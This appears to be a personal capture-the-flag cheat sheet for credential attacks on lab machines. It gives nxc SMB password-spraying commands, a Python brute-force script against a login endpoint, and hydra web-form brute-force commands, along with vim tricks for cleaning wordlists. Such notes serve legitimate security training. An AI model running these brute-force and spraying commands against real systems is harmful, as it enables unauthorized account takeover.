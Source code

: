 Generate formatted userlist from list of users first and last name
```
~/Tools/ctf-wordlist-names.sh names.txt
```
- creates file named `formatted_name_wordlist.txt`
- https://github.com/PinkDraconian/CTF-bash-tools

Vim commands:
always start with `:`
remove all space before first character of each line `%s/^\s\+//`
remove everything after first space of each line `%s/ .*//`
removes everything before a certain character(:) of each line `%s/^.*://`
removes all characters before first `[` on each line `:%s/^[^[]*\[//`
remove everything after first `]` on each line `:%s/].*$//`


spray each user with corresponding password, use `--no-bruteforce`
```
nxc smb 10.129.129.70 -u users1.txt -p passwords.txt --no-bruteforce --continue-on-success
```
- user and password list must be same size

Custom brute-force python script if hydra fails
```
import requests

url = "http://10.10.195.93:8081/auth"
users = open("users.txt", "r", encoding="utf-8").read().splitlines()
passwords = open("/usr/share/wordlists/rockyou.txt", "r", encoding="latin-1").read().splitlines()

for user in users:
    for password in passwords:
        response = requests.get(url, params={"login": user, "password": password})
        # Refine success detection here
        if "Invalid credentials" not in response.text and "You must specify a login and a password" not in response.text:
            print(f"Success: {user}:{password}")
            exit()

print("No valid credentials found.")


```

#### Bruteforce Login page
```
hydra 10.129.222.16 -l dank -P /usr/share/seclists/Passwords/twitter-banned.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```
- must include username `-l dank` even if not using on login
- can also use rockyou
- if targeting port 80 instead of 443, make sure to change `https-post-form` to `http-post-form` and syntax to:
```
hydra -L users.txt -P rockyou_ninja http-post-form://127.0.0.1:9001/index.php:"username=^USER^&password=^PASS^&login=:Login Restricted."
```
- use burp to get data for quotes at the end. 3 pieces of data between `:` includes:
	- relative subdirectory of login page
	- burp query
	- burp response or page response that indicates login failed
 - if seeing a bunch of tries and (0/0) in output, means command is wrong
